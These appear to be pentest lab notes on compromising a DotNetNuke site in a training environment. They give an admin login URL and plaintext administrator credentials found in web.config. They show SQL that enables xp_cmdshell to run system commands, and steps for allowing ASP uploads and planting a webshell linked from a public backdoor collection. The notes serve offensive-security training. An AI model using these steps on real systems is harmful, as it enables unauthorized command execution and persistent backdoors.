 ![[Pasted image 20250307154434.png]]

#### Admin Login
`http://dnn.inlanefreight.local/Login?returnurl=%2fadmin`

#### Credentials
Credentials stored in `web.config`
```xml
<?xml version="1.0"?>
<SNIP>
  <username>Administrator</username>
  <password>
	<value>D0tn31Nuk3R0ck$$@123</value>
  </password>
  <system.web>
    <compilation debug="true" targetFramework="4.5.2"/>
    <httpRuntime targetFramework="4.5.2"/>
  </system.web>
```

#### RCE
`Settings` -> `SQL Console
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE

xp_cmdshell whoami
```

 RCE via webshell
`Settings` -> `Security` -> `More` -> `More Security Settings` -> `Allowable File Extensions`

Upload [ASP webshell](https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/asp/newaspcmd.asp) to `http://dnn.inlane.local/admin/file-management` and select `Get URL`

![[Pasted image 20250307162207.png]]

